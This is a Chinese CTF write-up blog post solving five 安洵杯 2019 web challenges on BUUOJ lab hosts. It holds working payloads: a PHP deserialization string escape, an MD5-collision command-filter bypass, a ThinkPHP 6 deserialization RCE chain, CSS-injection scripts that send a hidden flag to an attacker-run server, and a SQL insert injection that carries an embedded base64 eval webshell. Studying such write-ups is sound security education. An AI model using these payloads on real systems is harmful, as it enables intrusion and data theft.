



+++
title = "安洵杯2019"
slug = "anxun-cup-2019"
description = "刷"
date = "2024-08-23T10:32:52"
lastmod = "2024-08-23T10:32:52"
image = ""
license = ""
categories = ["复现"]
tags = ["php", "csrf"]
+++

# [安洵杯 2019]easy_serialize_php

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

首先进`phpinfo`拿文件` d0g3_f1ag.php`

很明显的字符串逃逸吧

测试一下

```php
<?php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

$_SESSION['user']='flagflagflagflagflagflag';
$_SESSION['function']='a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}';
$_SESSION['img']='ZDBnM19mMWFnLnBocA==';

$a= filter(serialize($_SESSION));
echo $a;
$b='a:3:{s:4:"user";s:24:"";s:8:"function";s:58:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$c='a:3:{s:4:"user";s:24:"";s:8:"function";s:58:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}';
var_dump(unserialize($c));
var_dump(unserialize($b));
```

运行一下,我们是可以看到`}`后面的内容直接被丢弃,而`img`也被正确赋值

> 由于user值为空,但是并不会停止返序列化，而是向后面吃掉24个字符也就是

```python
print(len(';s:8:"function";s:58:"a"'))
#24
```

那么也就是少了一个属性的了，我们在后面再补一个即可

```
http://67e2db5a-09a2-490b-8870-79eafca38788.node5.buuoj.cn:81/index.php?f=show_image

POST :
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}
```

```php
<?php

$flag = 'flag in /d0g3_fllllllag';

?>
```

`base64`编码发现

```
L2QwZzNfZmxsbGxsbGFn(刚好20)
```

```
http://67e2db5a-09a2-490b-8870-79eafca38788.node5.buuoj.cn:81/index.php?f=show_image

POST :
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:1:"1";s:1:"2";}
```

# [安洵杯 2019]easy_web

抓包

```
Resquest:

GET /index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd= HTTP/1.1
Host: c2eba9fb-1c86-47cd-af1c-19d4b8dcdf12.node5.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://c2eba9fb-1c86-47cd-af1c-19d4b8dcdf12.node5.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



直接就处理了

```
GET /index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3&cmd= HTTP/1.1
Host: c2eba9fb-1c86-47cd-af1c-19d4b8dcdf12.node5.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://c2eba9fb-1c86-47cd-af1c-19d4b8dcdf12.node5.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

得到源码

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "</img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html>
```

这里有一个md5强碰撞

网上的师傅收集来的

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2

a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

我本来是想直接`nc`弹`shell`但是400了

绕过一下那就

```
Request:

POST /index.php?cmd=l\s%20/ HTTP/1.1
Host: c2eba9fb-1c86-47cd-af1c-19d4b8dcdf12.node5.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://c2eba9fb-1c86-47cd-af1c-19d4b8dcdf12.node5.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 307

a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

当时测的时候没怎么看，后来发现其实正则里面是有`\`的，但是后面实验的时候发现正则如果要过滤的话我这个命令的话比如`l\s`,必须过滤`\s`才能够实现

# [安洵杯 2019]iamthinking

tp6反序列化漏洞

`/www.zip`

EXP

```php
<?php
 
namespace think\model\concern;
 
trait Attribute
{
    private $data = ["key" => ["key1" => "cat /flag"]];
    private $withAttr = ["key"=>["key1"=>"system"]];
    protected $json = ["key"];
}
namespace think;
 
abstract class Model
{
    use model\concern\Attribute;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $jsonAssoc;
    function __construct($obj = '')
    {
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->table = $obj;
        $this->jsonAssoc = true;
    }
}
 
namespace think\model;
 
use think\Model;
 
class Pivot extends Model
{
}
$a = new Pivot();
$b = new Pivot($a);
$c = array($b);
echo urlencode(serialize($c));
```

```
http://69aa0345-725d-4856-bf79-ad35ddf9d89d.node5.buuoj.cn/public/index.php?payload=a%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A9%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A12%3A%22%00%2A%00withEvent%22%3Bb%3A0%3Bs%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A18%3A%22%00think%5CModel%00force%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A9%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A12%3A%22%00%2A%00withEvent%22%3Bb%3A0%3Bs%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A18%3A%22%00think%5CModel%00force%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3Bs%3A0%3A%22%22%3Bs%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Ba%3A1%3A%7Bs%3A4%3A%22key1%22%3Bs%3A9%3A%22cat+%2Fflag%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Ba%3A1%3A%7Bs%3A4%3A%22key1%22%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22key%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Ba%3A1%3A%7Bs%3A4%3A%22key1%22%3Bs%3A9%3A%22cat+%2Fflag%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Ba%3A1%3A%7Bs%3A4%3A%22key1%22%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22key%22%3B%7D%7D%7D
```

# [安洵杯 2019]cssgame

```html
<p>
    flag.html
    <!--
        <html>
            <link rel="stylesheet" href="${encodeURI(req.query.css)}" />
             <form>
                <input name="Email" type="text" value="test">
                <input name="flag" type="hidden" value="202cb962ac59075b964b07152d234b70"/>
                <input type="submit" value="提交">
            </form>
        </html>
    -->
</p>
```

`flag`属性是`hidden`,无法直接看到,只能控制`flag.html`加载我们自定义的`css`文件,使用css选择器来爆破出`flag`



```css
input[name=flag][value^="f"] ~ * {background-image: url("http://x.x.x.x/?flag=f");}
```

- **`input[name=flag]`**: 选择所有 `name` 属性为 `flag` 的 `<input>` 元素。
- **`[value^="f"]`**: 这是一个属性选择器，其中 `^=` 表示“以某个值开头”。在这里，选择所有 `value` 属性以字母 `f` 开头的 `<input>` 元素。
- **`~ \*`**: 选择当前元素之后的所有兄弟元素（通配符 `*` 表示所有元素）。如果选择器匹配到前面的条件，这部分选择器会选中当前 `<input>` 元素之后的所有兄弟元素。

这里借助师傅的脚本

先用这个脚本生成所有需要的字符

```python
f = open("poc.css", "w")
dic = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}-"
for i in dic:
    payload = '''input[name=flag][value^="'''+i + \
        '''"] ~ * {background-image:url("http://IP:999/'''+i+'''");}'''
    f.write(payload + "\n")
f.close()
```

再用这个脚本在线打

```python
from flask import Flask
app = Flask(__name__)
dic = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}-"
result = ""

@app.route('/poc.css')
def payload():
    global result
    res = ''''''
    for i in dic:
        j = ''.join((result, i))
        res += '''input[name=flag][value^="'''+j+'''"] ~ * {background-image:url("http://IP:999/'''+j+'''");}\n'''
    return res, 200, [("Content-Type", "text/css")]

@app.route('/<flag>')
def all(flag):
    global result
    result = flag
    print(flag)
    return flag

app.run(host='0.0.0.0', port=999)
```

那么看到这个脚本我们其实已经不太需要`poc.css`这个静态文件了,只是需要能够访问这个路由就可以了(所以还是留着)

其实我们如果是爆破`flag`的话是不需要大写字母的甚至不用这么多字符

再搞个发包的脚本(自己点太累了)

```python
import requests
import time
session = requests.session()

while 1:
    burp0_url = "http://bfa1cf93-5255-43b9-9cb0-873114a61c0b.node5.buuoj.cn:81/crawl.html"
    burp0_cookies = {"UM_distinctid": "176929086fa3a0-0b0ed985080c69-163b6153-13c680-176929086fb472", "_ga": "GA1.2.602800589.1608776974", "_gid": "GA1.2.1740085603.1609750409"}
    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", 	  "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36", "Origin": "http://2c1fe10e-fee9-4956-b0f4-f87a2de7a0dc.node3.buuoj.cn", "Content-Type": "application/x-www-form-urlencoded", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://2c1fe10e-fee9-4956-b0f4-f87a2de7a0dc.node3.buuoj.cn/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
    burp0_data = {"css": "http://27.25.151.48:999/poc.css"}
    session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
    time.sleep(0.6)
```



那么上面说了不用那么多字符同时也是为了加快速度

```python
f = open("poc.css", "w")
dic = "abcdeflag0123456789{}-"
for i in dic:
    payload = '''input[name=flag][value^="'''+i + \
        '''"] ~ * {background-image:url("http://IP:999/'''+i+'''");}'''
    f.write(payload + "\n")
f.close()
```

```python
from flask import Flask
app = Flask(__name__)
dic = "abcdeflag0123456789{}-"
result = ""

@app.route('/poc.css')
def payload():
    global result
    res = ''''''
    for i in dic:
        j = ''.join((result, i))
        res += '''input[name=flag][value^="'''+j+'''"] ~ * {background-image:url("http://IP:999/'''+j+'''");}\n'''
    return res, 200, [("Content-Type", "text/css")]

@app.route('/<flag>')
def all(flag):
    global result
    result = flag
    print(flag)
    return flag

app.run(host='0.0.0.0', port=999)
```

很润！！

# [安洵杯 2019]不是文件上传

`php`代审

把源码搞下来

`helper.php`

```php
<?php
class helper {
	protected $folder = "pic/";
	protected $ifview = False; 
	protected $config = "config.txt";
	// The function is not yet perfect, it is not open yet.

	public function upload($input="file")
	{
		$fileinfo = $this->getfile($input);
		$array = array();
		$array["title"] = $fileinfo['title'];
		$array["filename"] = $fileinfo['filename'];
		$array["ext"] = $fileinfo['ext']; //拓展名
		$array["path"] = $fileinfo['path'];
		$img_ext = getimagesize($_FILES[$input]["tmp_name"]);    //获得图片信息
		$my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);
		$array["attr"] = serialize($my_ext);
		$id = $this->save($array);
		if ($id == 0){
			die("Something wrong!");
		}
		echo "<br>";
		echo "<p>Your images is uploaded successfully. And your image's id is $id.</p>";
	}

	public function getfile($input)
	{
		if(isset($input)){
			$rs = $this->check($_FILES[$input]);
		}
		return $rs;
	}

	public function check($info)
	{
		$basename = substr(md5(time().uniqid()),9,16);
		$filename = $info["name"];
		$ext = substr(strrchr($filename, '.'), 1);
		$cate_exts = array("jpg","gif","png","jpeg");
		if(!in_array($ext,$cate_exts)){
			die("<p>Please upload the correct image file!!!</p>");
		}
	    $title = str_replace(".".$ext,'',$filename);
	    return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
	}

	public function save($data)
	{
		if(!$data || !is_array($data)){
			die("Something wrong!");
		}
		$id = $this->insert_array($data);
		return $id;
	}

	public function insert_array($data)
	{	
		$con = mysqli_connect("127.0.0.1","r00t","r00t","pic_base");
		if (mysqli_connect_errno($con)) 
		{ 
		    die("Connect MySQL Fail:".mysqli_connect_error());
		}
		$sql_fields = array();
		$sql_val = array();
		foreach($data as $key=>$value){
			$key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
			$value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
			$sql_fields[] = "`".$key_temp."`";
			$sql_val[] = "'".$value_temp."'";
		}
		$sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
		mysqli_query($con, $sql);
		$id = mysqli_insert_id($con);
		mysqli_close($con);
		return $id;
	}

	public function view_files($path){
		if ($this->ifview == False){
			return False;
			//The function is not yet perfect, it is not open yet.
		}
		$content = file_get_contents($path);
		echo $content;
	}

	function __destruct(){
		# Read some config html
		$this->view_files($this->config);
	}
}

?>
```

`show.php`

```php
<?php
include("./helper.php");
$show = new show();
if($_GET["delete_all"]){
	if($_GET["delete_all"] == "true"){
		$show->Delete_All_Images();
	}
}
$show->Get_All_Images();

class show{
	public $con;

	public function __construct(){
		$this->con = mysqli_connect("127.0.0.1","r00t","r00t","pic_base");
		if (mysqli_connect_errno($this->con)){ 
   			die("Connect MySQL Fail:".mysqli_connect_error());
		}
	}

	public function Get_All_Images(){
		$sql = "SELECT * FROM images";
		$result = mysqli_query($this->con, $sql);
		if ($result->num_rows > 0){     //有返回行
		    while($row = $result->fetch_assoc()){
		    	if($row["attr"]){
		    		$attr_temp = str_replace('\0\0\0', chr(0).'*'.chr(0), $row["attr"]); //替换用来处理protected
					$attr = unserialize($attr_temp);
				}
		        echo "<p>id=".$row["id"]." filename=".$row["filename"]." path=".$row["path"]."</p>";
		    }
		}else{
		    echo "<p>You have not uploaded an image yet.</p>";
		}
		mysqli_close($this->con);
	}

	public function Delete_All_Images(){
		$sql = "DELETE FROM images";
		$result = mysqli_query($this->con, $sql);
	}
}
?>
```

`upload.php`

```php
<?php
include("./helper.php");
class upload extends helper {
	public function upload_base(){
		$this->upload();
	}
}

if ($_FILES){
	if ($_FILES["file"]["error"]){
		die("Upload file failed.");
	}else{
		$file = new upload();
		$file->upload_base();
	}
}

$a = new helper();
?>
```

有个反序列化可以执行文件，但是为了能够反序列化还需要`insert`注入

```sql
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) VALUES('TIM截图20191102114857','f20c76cc4fb41838.jpg','jpg','pic/f20c76cc4fb41838.jpg','a:2:{s:5:"width";i:1264;s:6:"height";i:992;}')
```

正常的是这种,由于`title`可控并且序列化参数可控这里可以直接打通

```sql
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) VALUES('1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d),('1.jpg','f20c76cc4fb41838.jpg','jpg','pic/f20c76cc4fb41838.jpg','a:2:{s:5:"width";i:1264;s:6:"height";i:992;}')
```

成功插入恶意序列化字符串

```php
<?php

class helper{
    protected $ifview=true;
    protected $config="/flag";

}
echo serialize(new helper());
//O:6:"helper":2:{s:9:"*ifview";b:1;s:9:"*config";s:5:"/flag";}
```

由于中途

```php
echo str_replace(chr(0).'*'.chr(0), '\0\0\0', $a);
```

本来这句是来进行替换的我们就不用手动加了，但是我发现本地的时候，他不是很好处理不可见字符，还不如自己加

```
O:6:"helper":2:{s:9:"\0\0\0ifview";b:1;s:9:"\0\0\0config";s:5:"/flag";}
```

```hex
0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d
```

```
Request:

POST /upload.php HTTP/1.1
Host: 52ccf179-7209-4ae9-ad46-d371fed00a3f.node5.buuoj.cn:81
Content-Length: 388
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://52ccf179-7209-4ae9-ad46-d371fed00a3f.node5.buuoj.cn:81
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryX4jneskzghE3gqfK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://52ccf179-7209-4ae9-ad46-d371fed00a3f.node5.buuoj.cn:81/upload.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryX4jneskzghE3gqfK
Content-Disposition: form-data; name="file"; filename="1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d),('1.jpg"
Content-Type: image/jpeg

GIF89a66
PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=
------WebKitFormBoundaryX4jneskzghE3gqfK--
```

然后访问`/show.php`就可以看到了
